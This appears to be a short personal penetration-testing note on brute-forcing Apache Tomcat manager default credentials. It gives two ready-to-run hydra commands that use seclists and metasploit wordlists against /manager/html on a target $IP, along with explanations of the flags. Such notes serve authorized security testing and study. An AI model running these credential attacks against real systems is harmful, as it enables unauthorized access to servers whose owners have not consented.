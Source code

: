 # brute force default credentials tomcat
colon separated: /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
-e nsr    try "n" null password, "s" login as pass and/or "r" reversed login
-s PORT   if the service is on a different default port, define it here
```bash
hydra -s 8080 -C /usr/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt $IP http-get /manager/html
```

try more than just the default colon separated default creds from seclists.
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -P /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt http-get://$IP/manager/html
```

# References
- [20221003150807](/zet/20221003150807/README.md) brute force default credentials
- [20221003150803](/zet/20221003150803/README.md) brute force default credentials tomcat wfuzz
- [20221003150802](/zet/20221003150802/README.md) brute force default credentials tomcat metasploit
- ~/kb/hacking/commands/hydra-default-credentials.md

Tags:
    #assorted #command
